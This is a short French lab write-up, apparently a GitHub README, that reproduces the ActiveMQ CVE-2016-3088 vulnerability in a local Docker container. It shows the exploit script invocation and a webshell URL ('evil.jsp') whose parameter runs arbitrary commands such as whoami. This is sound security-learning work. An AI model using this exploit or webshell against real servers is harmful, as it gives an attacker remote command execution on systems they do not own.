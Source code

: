 -----CVE 2016 -----

1- D'abord, j'ai effectuer un docker compose du fichier .yml dans ma version 2015 d'ActiveMQ afin d'avoir une image docker.
![Capture d'écran 2024-12-15 190327](https://github.com/user-attachments/assets/907783ff-6ae6-4f92-86bd-3611fca508e8)

2-Cette image Docker ayant été généré j'effectue un scan des différent ports de mon, IP afin de voir le port sur lequel je veux constater la comunication avec mon image docker d'activeMq

![Capture d'écran 2024-12-15 190451](https://github.com/user-attachments/assets/752e4e21-0bb9-4c66-8b35-bef02d8bf59d)



3-Méthode de compromission:
En effet dans cette version de l'activeMq la vulnérabilité est la possibilité d'accéder au shell de l'activeMq grâce à un programme python qui établi cette connexion.
Pour ce faire;

- Nous allons exécuter notre code python de connection au webshell: python3 CVE-2016-3088.py -u http://localhost:8161/
  
  ![Capture d'écran 2024-12-15 190603](https://github.com/user-attachments/assets/aa223337-9d5a-48ab-8123-56db4323174e)

-Ensuite, nous pouvons accéder à ce shell grâce à l'URL qui nous sera donné après l'exécution du code python: http://localhost:8161/api/evil.jsp?pwd=9527&i=whoami


![Capture d'écran 2024-12-15 190746](https://github.com/user-attachments/assets/bf78b0f6-8df7-486b-8553-71cfa619d910)


Le changement de Whoami par n'importe quel élement, nous permet d'avoir la liste du contenu dans mon activeMq.


